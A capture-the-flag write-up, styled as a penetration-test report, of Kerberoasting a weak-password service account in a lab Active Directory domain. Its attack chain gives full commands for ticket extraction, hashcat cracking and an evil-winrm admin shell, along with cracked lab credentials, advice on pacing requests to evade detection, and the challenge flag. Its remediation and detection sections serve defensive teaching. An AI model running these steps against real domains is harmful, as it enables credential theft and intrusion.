






**Category:** Kerberos | **Difficulty:** Easy | **Flag:** <details><summary>reveal</summary><code>EPI{SPN_juicE_f0r_d4y5}</code></details>

Working log: `challenges/dangerous-services.md`. Background reading:
`services/kerberos.md`, `tools/netexec.md`. Related finding: AS-REP roasting of
`j.vabre` (see `write-ups/kerberos/no-preauth-needed.md`), discovered via the
same enumeration pass.

## Executive Summary

A domain user account (`g.clooney`) registered with a Service Principal Name
(SPN) was found to hold a weak, dictionary-crackable password. Using only the
lab's baseline low-privilege credential (`pentester`), we enumerated
Kerberoastable accounts over LDAP, requested a Ticket Granting Service (TGS)
ticket for `g.clooney`'s SPN, and cracked the resulting `$krb5tgs$` hash
offline in under a minute against `rockyou.txt`. The recovered credential
(`CoffeeMug!1`) granted interactive administrative access over WinRM to host
**SIRIUS** (`10.42.0.157`), a host with no privileged relationship visible in
LDAP or BloodHound group membership — demonstrating that directory-derived
privilege graphs understate real-world reachable access without an active
credential-validation sweep. This confirms an SPN-bearing account with a weak
password as a direct, low-effort path to host compromise, requiring no prior
elevated access and leaving no authentication-failure telemetry on the
Domain Controller.

## Investigation & Technical Analysis

### Technical Incident Overview

Kerberos authentication is split into three exchanges: AS-REQ/AS-REP (obtain a
Ticket Granting Ticket, TGT), TGS-REQ/TGS-REP (exchange the TGT for a Service
Ticket, ST, for a specific SPN), and AP-REQ/AP-REP (present the ST to the
target service). The TGS-REP's service ticket is encrypted using a key derived
from the **target service account's own NTLM password hash** — not from
anything tied to the requesting principal, and Kerberos performs no
authorization check at TGS-REQ time (that check happens only later, at
AP-REQ, by the service itself). Consequently, **any authenticated domain
principal holding a valid TGT can request a TGS for any SPN registered in the
domain**, for any account, regardless of whether that principal will ever be
authorized to use the service. This is the well-known **Kerberoasting**
primitive (MITRE ATT&CK T1558.003): the attacker extracts the encrypted
service ticket and brute-forces/dictionary-attacks it offline to recover the
service account's plaintext password, with zero further interaction against
the KDC and therefore no failed-authentication telemetry.

### Scope & Methodology

- **Target domain:** HOUNDLABS.EPI, DC01 at `10.42.0.42`.
- **Starting credential:** `pentester:Password123!` (baseline lab credential,
  no elevated rights).
- **Tools used:** `GetUserSPNs.py` (Impacket) for SPN enumeration and TGS
  extraction, `faketime` for Kerberos clock-skew mitigation, `hashcat`
  (mode 13100, `$krb5tgs$23$`) against `rockyou.txt` for offline cracking,
  `netexec` for credential validation across protocols, `scripts/spray-all.sh`
  for the full host×protocol access sweep, `evil-winrm` for the resulting
  interactive shell.
- **Enumeration approach:** LDAP-based SPN enumeration as an authenticated-but-
  unprivileged domain user (no admin rights required for this step), followed
  by targeted TGS-REQ for discovered SPNs, then a brute-force credential
  validation sweep (not an LDAP/BloodHound group-membership assumption) across
  all known hosts and protocols (SMB/WinRM/RDP/MSSQL/LDAP) to find where the
  cracked credential actually grants access.
- **Evidence sources:** command output/log captures reproduced below;
  `challenges/dangerous-services.md` (raw working log, same-day).

### Attack Chain & Detailed Findings

**1. Clock-skew precondition (T1558 precondition, not itself an attack step).**
Kerberos rejects any AS-REQ/TGS-REQ where client and KDC clocks differ by more
than ~5 minutes (`KRB_AP_ERR_SKEW`), an anti-replay control. The attacker
container's clock was ~7 hours behind DC01. Time was checked without
authenticating and without altering the system clock:

```
nmap -Pn -p445 --script smb2-time 10.42.0.42
```

The skew was then scoped to only the ticket-request process (not the
container's real clock) via `faketime`:

```
faketime '+7 hours' GetUserSPNs.py 'HOUNDLABS.EPI/pentester:Password123!' \
  -dc-ip 10.42.0.42 -request -outputfile kerberoast.hashes
```

**2. Kerberoastable account discovery.** The above LDAP query (performed
implicitly by `GetUserSPNs.py` under the hood — a search for
`userAccountControl` combined with `servicePrincipalName` present) returned
one account:

| Account | SPN | Notes |
|---|---|---|
| `g.clooney` | `HTTP/g.clooney.houndlabs.epi` | No DNS A record for the hostname — the SPN is a Kerberos service identifier only, not evidence of a reachable HTTP endpoint |



*Note: the lab's live SPN set has since expanded to include `j.vabre` and
`b.pitt` on top of `g.clooney`; this write-up documents the `g.clooney` path
only — see `challenges/dangerous-services.md` for current status on the
others.*

**3. Offline cracking (T1558.003).** The extracted `$krb5tgs$23$...` ticket was
cracked against `rockyou.txt`:

```
hashcat -m 13100 -a 0 kerberoast.hashes /usr/share/wordlists/rockyou.txt
hashcat -m 13100 kerberoast.hashes --show
# g.clooney:CoffeeMug!1
```

Cracking succeeded in well under a minute, consistent with a dictionary-word +
simple-suffix pattern password (`CoffeeMug!1`) rather than a random/long
credential.



> **Lab-state note:** an earlier teammate run recovered `CoffeMug!1` (missing
> one letter) for the same account. On re-run, that value failed across the
> full `pentester`-reachable host/protocol matrix while the baseline
> `pentester` account remained valid — indicating a shared-lab credential
> rotation on reset, not a technique or target change. The corrected value
> (`CoffeeMug!1`) was re-derived by repeating the identical attack chain.

**4. Credential validation and access discovery.** `g.clooney` showed no
listed group membership and no explicit local-admin ACE visible via LDAP or
BloodHound. A full host×protocol sweep (`scripts/spray-all.sh g.clooney`) was
required to surface actual access, consistent with the pattern observed
across other nodes in this engagement — directory attributes alone did not
predict reachable privilege:

```
netexec winrm 10.42.0.157 -u g.clooney -p 'CoffeeMug!1'
# [+] HOUNDLABS.EPI\g.clooney:CoffeeMug!1 (admin)
```



**5. Interactive access and flag retrieval.**

```
evil-winrm -i 10.42.0.157 -u g.clooney -p 'CoffeeMug!1'
*Evil-WinRM* PS C:\Users\g.clooney\Documents> whoami
houndlabs\g.clooney
*Evil-WinRM* PS C:\Users\g.clooney\Documents> dir C:\Users\g.clooney\Desktop
*Evil-WinRM* PS C:\Users\g.clooney\Documents> type C:\Users\g.clooney\Desktop\*.txt
```





<details><summary>Flag (spoiler — click to reveal screenshot and value)</summary>



```
EPI{SPN_juicE_f0r_d4y5}
```

</details>

**MITRE ATT&CK mapping:**

| Technique | ID | Step |
|---|---|---|
| Kerberoasting | T1558.003 | Steps 2–3 |
| Valid Accounts | T1078.002 | Steps 4–5 |
| Remote Services: Windows Remote Management | T1021.006 | Step 5 |

**Attacker operational security (would this have been flagged by a blue
team?):** This technique is largely self-concealing at the network
level — a TGS-REQ for an SPN is indistinguishable from legitimate service
authentication, and the entire credential-theft step (offline cracking)
generates zero traffic at all. The one detectable signal is the TGS-REQ
itself (Event ID `4769`), and specifically its `Ticket Encryption Type`:
this lab's TGS-REP came back RC4-encrypted (`0x17`), the classic
Kerberoasting tell, because the domain still permits RC4. A more
OPSEC-conscious attacker has limited room to improve this — SPN discovery
via LDAP generates no anomaly, and the actual ticket request is a single,
unavoidable event per target account. The main lever available is
**volume and pacing**: requesting one SPN (as done here) blends into
background noise; a domain-wide SPN sweep followed by mass ticket
requests in a tight time window is what actually triggers a SIEM
Kerberoasting rule in practice (a spike in distinct `4769` events with
RC4 encryption from a single principal). This was not a concern in this
engagement (no detection program is monitoring the lab), but it's the
operationally meaningful distinction between "quietly roasting one
known-weak account" and "getting caught by an obvious burst pattern."

### Root Cause Analysis

The entry condition is an account with an SPN registered (`g.clooney`) and a
dictionary-crackable, human-chosen password. SPN registration itself is not
the vulnerability — it is a required, legitimate Kerberos feature for any
account running a network service — the vulnerability is the **combination**
of SPN exposure (which lets any authenticated user pull an offline-crackable
ciphertext for that account at will) with a weak, non-random password. A
machine account in the same position would be practically uncrackable because
its password is a long, automatically rotated random value; a human/service
account defaults to being exactly the opposite unless deliberately hardened.
The secondary enabling condition is the absence of any detective control on
TGS-REQ volume/pattern — the entire credential-theft step is indistinguishable
from normal Kerberos traffic at the network level.

### Indicators of Compromise

- **Account:** `g.clooney` (SPN: `HTTP/g.clooney.houndlabs.epi`)
- **Compromised host:** SIRIUS, `10.42.0.157` (WinRM, admin-equivalent access)
- **Domain:** HOUNDLABS.EPI, DC01 `10.42.0.42`
- **Artifact:** requested `$krb5tgs$23$` ticket for the above SPN (offline
  cracking artifact — not present in DC event logs as a failed auth)
- **Relevant Windows Event IDs (for detection, not observed in this lab):**
  `4769` (Kerberos Service Ticket Requested) with `Ticket Encryption Type =
  0x17` (RC4) is the standard Kerberoasting signal; a spike in distinct
  service-ticket requests from a single principal in a short window is the
  behavioral signature.
- **Credential:** `g.clooney:CoffeeMug!1` (rotated from a prior
  `CoffeMug!1` on lab reset — treat as ephemeral lab-state, not a durable IoC)

## Impact Analysis

- **Severity (illustrative CVSS v3.1 vector):**
  `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` — **~8.8 (High)**. Network-reachable,
  low attack complexity, requires only low (any valid domain) privilege, no
  user interaction, and results in full confidentiality/integrity/availability
  impact on the compromised host.
- **Blast radius:** Starting from the lowest-privilege domain credential
  provided, the attacker reaches full administrative control of SIRIUS with
  no intermediate escalation step and no detection surface. From an
  admin-equivalent foothold on SIRIUS, standard post-exploitation (credential
  dumping via `secretsdump.py`/LSASS access, cached credential harvesting,
  further lateral movement) becomes available, meaning the actual blast
  radius extends beyond the single host demonstrated here.
- **Compounding factor:** A structurally identical weakness (AS-REP roasting
  of `j.vabre`, pre-authentication disabled) was found via the same
  enumeration pass, indicating this is a systemic password-hygiene gap on
  service/legacy accounts rather than an isolated incident.
- **Business/legal consequence:** Full host compromise achievable by any
  authenticated low-privilege user, with no audit trail distinguishing it from
  routine Kerberos traffic, represents a material gap for any compliance
  framework requiring demonstrable detection of privilege escalation
  (e.g. incident response/breach-notification obligations if this path were
  used against production data).

## Remediation & Recommendations

**Priority 1 — close the exposure:**
- Rotate `g.clooney`'s password to a long (25+ character), randomly generated
  value and store it in a managed credential vault (gMSA/LAPS-equivalent for
  service accounts where applicable).
- Audit all SPN-bearing accounts domain-wide for password strength/age;
  migrate services to **Group Managed Service Accounts (gMSA)** where
  supported, which removes the human-chosen-password weakness entirely via
  automatic, long, periodic password rotation.
- Re-enable Kerberos pre-authentication on `j.vabre` and audit for any other
  accounts with `DONT_REQUIRE_PREAUTH` set.

**Priority 2 — detection:**
- Alert on Event ID `4769` where `Ticket Encryption Type = 0x17` (RC4),
  especially from a single principal requesting multiple distinct SPNs in a
  short time window — the standard Kerberoasting SIEM signature.
- Baseline and alert on anomalous TGS-REQ volume per account (ANSSI AD
  hardening guide and CIS Benchmark for Windows Server both recommend
  Kerberos ticket-request monitoring as a core AD detection control).
- Enforce AES-only Kerberos encryption (disable RC4) where domain functional
  level permits, which removes the fast-crackable `$krb5tgs$23$` (RC4) format
  in favor of the far more cracking-resistant AES variant.

**Priority 3 — structural:**
- Minimize the number of accounts requiring an SPN at all; retire unused
  service accounts/SPNs discovered during the audit above.
- Apply least-privilege review specifically to SPN-bearing accounts, since
  (as observed here) directory-visible group membership does not reliably
  predict real host access — periodic credential-validation sweeps, not just
  ACL review, should be part of ongoing AD hygiene.

## Appendices

- **A. Command transcript:** clock-skew check, `GetUserSPNs.py` extraction,
  `hashcat` crack, `netexec`/`evil-winrm` access — see Attack Chain section
  above for full commands and output.
- **B. Working log:** `challenges/dangerous-services.md` (full session
  narrative, including the lab-reset credential-rotation investigation).
- **C. Related finding:** `write-ups/kerberos/no-preauth-needed.md`
  (AS-REP roasting of `j.vabre`, discovered via the same LDAP enumeration
  pass).
- **D. Screenshots:** terminal captures embedded inline above
  (`assets/01-spn-enumeration.png` through `assets/06-flag-retrieved.png`,
  captured 2026-10-25). A Kerberoasting sequence diagram (AS-REQ/AS-REP →
  TGS-REQ/TGS-REP → offline crack → AP-REQ) is still TODO per the report's
  illustration requirement.
- **E. Unexploited lead (not required for this flag):** `g.clooney` holds
  **WriteSPN** over `p.origan` (no current SPN, password never expires) per
  BloodHound — a live secondary Kerberoasting path via ACL abuse rather than
  pre-existing misconfiguration, documented for the oral defense but not
  pursued further here.
